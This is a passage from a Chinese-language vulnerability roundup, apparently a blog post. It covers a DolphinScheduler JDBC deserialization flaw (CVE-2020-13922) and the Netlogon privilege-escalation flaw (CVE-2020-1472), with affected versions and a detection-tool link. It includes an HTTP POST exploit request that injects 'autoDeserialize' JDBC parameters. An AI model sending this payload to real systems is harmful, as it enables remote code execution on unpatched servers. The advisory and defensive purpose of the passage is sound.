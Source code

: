 ![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x09 Apache DolphinScheduler 权限覆盖漏洞 \[CVE-2020-13922\]

    它是一个分布式去中心化，易扩展的可视化 DAG(有向无环图) 工作流任务调度系统。利用漏洞: 需要登录权限, \[09/12 态势感知\] 提供一组默认密码。

该漏洞存在于数据源中心未限制添加的 jdbc 连接参数, 从而实现 JDBC 客户端反序列化。

1.  登录到面板 -> 数据源中心。
    
2.  jdbc 连接参数就是主角, 这里没有限制任意类型的连接串参数。
    
3.  将以下数据添加到 jdbc 连接参数中, 就可以直接触发。
    

```
POST /dolphinscheduler/datasources/connect HTTP/1.1
type=MYSQL&name=test¬e=&host=127.0.0.1&port=3306&database=test&
principal=&userName=root&password=root&connectType=&
other={"detectCustomCollations":true,"autoDeserialize":true}

```

    关于 JDBC 反序列化漏洞的分析可以参考安全客上大佬分享的一篇文章

    https://www.anquanke.com/post/id/203086

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x10 Netlogon 特权提升漏洞（CVE-2020-1472）

这个漏洞简直就是核武器，CVSS 评分直接为 10 分，该漏洞未经身份验证的攻击者通过 Netlogon 远程协议（MS-NRPC）建立与域控制器连接的安全通道时，可利用此漏洞获取域管理员访问权限。此漏洞在微软 8 月补丁更新时披露了，建议受影响的用户尽快进行防护以及打补丁，打补丁时一定要注意备份，避免系统过老，导致出问题。  

受影响的版本如下：

```
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016  (Server Core installation)
Windows Server 2019
Windows Server 2019  (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)

```

漏洞检测：

披露此漏洞的 Secura 已在 GitHub 上传了验证脚本，相关用户可使用此工具进行检测：https://github.com/SecuraBV/CVE-2020-1472/

漏洞防护：
